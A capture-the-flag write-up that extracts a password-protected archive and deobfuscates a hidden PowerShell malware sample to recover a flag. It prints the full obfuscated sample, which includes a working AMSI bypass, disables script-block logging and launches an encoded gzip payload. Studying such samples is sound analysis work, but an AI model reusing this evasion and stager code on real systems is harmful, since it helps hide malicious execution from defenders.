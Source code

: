 # Hot off the press

## Oh wow, a malware analyst shared a sample that I read about in the news! But it looks like they put it in some weird kind of archive...? Anyway, the password should be `infected` as usual!

A file is attached to the challenge.

---

Download the file. 

But... This is a weird file.. What kind is this ?

### uha file

A UHA file is an archive, you need [a specific tool](https://sam.gleske.net/uharc/) to decompress the archive. 

Put the UHARCD executable in the same folder as the archive and use this command, the pwd is in the challenge context

`.\uharc.exe e -pw .\hot_off_the_press`



![Alt text](image.png)


A wild powershell script appears.


### Powershell script

As you can see, the code is well obfuscated and honestly a pain in the ass to read

```powershell

C:\Windows\SysWOW64\cmd.exe /c powershell.exe -nop -w hidden -noni -c if([IntPtr]::Size -eq 4){$b=$env:windir+'\sysnative\WindowsPowerShell\v1.0\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]

```

The end of the file is pretty interesting, especially this part :

`New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream([System.Convert]::FromBase64String(((`

It means we have to decode from base64 then decompress from gzip.

If I go like this it leads to nothing. I noticed another thing in the code:

`''H4sI''+''AIeJ''+''G2UC/+1X''+''bU/jOBD+3l9hrS''+''IlkU{0}''+''VFvb{1}IiFdWqD''+''bPRJKS8vR''+''brUKy''+''TR168TFcQplb//7''+''jfNSygJ73{1}lI94F''+''IVvwyMx4/M''+''7YfT9PYl5TH''+''hH7sku8VUnxd''+''T3gRMTT/ku''+''/fWUSjS3Mzp''+''oX7zCWHxBjby+UR''+''jzwaTw4OWq''+''kQ{1}M''+''u8XW2''+''DtJM{1}''+''omtGI''+''TFM8he5nIGAnbP''+''rOfiSf''+''Cfat2qb8W''+''uPFW{0}rlufP''+''gOzYcaD''+''GTrnvKbeq/''+''SWj0tC/ftXN8U5''+''9Uj2+ST2''+''WGHp/nUiIqgFjuk''+''l+mGrCi/USDN2''+''hvuAJn8rqJY''+''13G9VBn''+''HhTcNHa''+''ChyQMx4''+''kul''+''nZ{0}{1}a''+''AT{1}Wcr0kZyUUMHa''+''tdwX0''+''7CAQkiW6RsTI''+''/nkx+N8bF''+''3{0}00''+''ljS''+''CaieWIPiyD''+''2JFfUiq''+''n704YNC''+''D6QS1+l{0}Q''+''OJyYJoq''+''t+AIM{0}U4Zs8''+''i/MWO4c''+''Fsi91olY1sJpbpS''+''mBYG''+''9Jl1OjxIG''+''eSa+jOO''+''5kl''+''g4pcngl''+''n5UalMy7''+''yJvPq''+''3o6eZs2mX''+''3zgbAHTX6PK''+''{1}Zr''+''qHp''+''GYRBy''+''f2JBdrbGoXIgVz''+''sgGbaNGe/Yf''+''1SmP1UhP1V''+''u0U''+''e8ZDToP''+''JRn0r''+''7tr0pj38q{1}''+''ReTuIjmNI''+''YjtaxF1G/''+''zFPjuWjAl{1}{1}GR''+''7UUc9{1}9Qy8''+''GIDgCB''+''q{1}nFb4qKZ6oHU''+''dUbnSbKWUB''+''CNvHiCb''+''oFQbbfO''+''xMHjJD78QORAhd3''+''sYs''+''1aa4O6''+''CU{0}nb''+''{1}upxdtVFIbz{1}v''+''SSzSTXF7+hbpg8c''+''gsIgdJ7QYs''+''lPJs6r+4K6T''+''Mkl9{0}5Glu''+''Yn5{1}5zFtC''+''0eJ1KkPgYVIbj''+''o{0}8''+''GnHlOIWO''+''QzDaC57''+''tOwnF5/Fo+Wxx''+''juG7S0wnhgj8''+''Kh{0}1Wq''+''CPQ0Swuz2g''+''fZiZYMIpTJjosT5''+''oV4''+''OBS7I''+''8st{0}4RAf8HRc''+''hPkGa+Q''+''KSHZchP''+''D3WdcWmRIhcTDR6''+''GM2fVfnHhy''+''6uTOtAQ''+''UwTGyvTVur''+''qXKfi0+P''+''W8sVI4WAGVwCI''+''lQn''+''AgeNb0{1}ftv{0}Dxjj''+''Q6dlh+/lvbyX''+''9/K/{0}22X+XG''+''vHr''+''RZ0mnV635''+''0N7''+''+6d''+''Pmob8sR''+''bf{0}gc+/2j''+''O6vT''+''ufHt856786''+''dO6lz{1}e5i''+''e302D2/PjuxV''+''tzFMr''+''xqfFqP{0}3nQU3''+''c1G''+''9zXmzq+''+''YGzn4P8b''+''iM7f''+''Rwf85lk''+''4+Nh8w5''+''36Q1Z17P6vn7''+''WP8h1gW2R/n+0''+''m2g8UuZ''+''M{0}M3kN7UYyHh''+''T17M5+aw22''+''ch1+GvZO{0}oc3+bF''+''+FX2jz''+''PmifrIOWvTq''+''nNhse''+''D91Ba+iPwsPD''+''D2ZlPKCx3G1M1{1}W''+''+qwhS''+''RWP+p/''+''2tS+Al6''+''ud4''+''Ipl5DC8H5HTl''+''FX3C''+''xUnB1{0}qcKg3DU''+''{1}x/''+''ASIGhvQYCXR5sd''+''mMcV+RxJzSIUP''+''NeaOisYNO''+''5tVzNZNsBM0''+''H9lh2HRyM''+''0{1}u8{0}{0}O7rH''+''oKcShnVu1ut1ZD''+''7le7q+3htfj6''+''pbX4cm3ktix''+''FHjNwNtZZZt2s''+''0CkxjDfHC9''+''8H{1}unK{0}xB7C''+''Tyce''+''4H0AvlOfukrCJ''+''ucs20A''+''i5Vt8''+''u{1}R''+''fghcHVc/Vq+''+''D{0}FPQxA7''+''c{1}{1}0q/rzFxrX0''+''+uz6TZOnIC8z/AX''+''/mDwPfb8YfVVC1a''+''wcoCfd''+''jzseiN/bIX''+''DpUYmCf''+''aRhDPKHwQtAFB''+''tmK8gqP{0}gbpsWn''+''Hspnq''+''dxx8''+''emlmODf2GZMc5''+''4PA''+''AA='')-f''L'',''E''`

1. The strings are concatenated ('+' between the strings) > it is a obfuscation technique
2. There are 2 variables inside the strings (`{0}` and `{1}`, at the end of the line we can see that `{0}` is "L" and `{1}` is "E")

So basically what we need to do there is:

1. Delete all the `''+''` concatenators
2. Replace `{0}` by ``L`` and `{1}` by ``E``
3. Base64 Decode all the String 
4. Gzip decompression

The output should be more code but this time we can see the flag url-encoded. One last step and it is done!
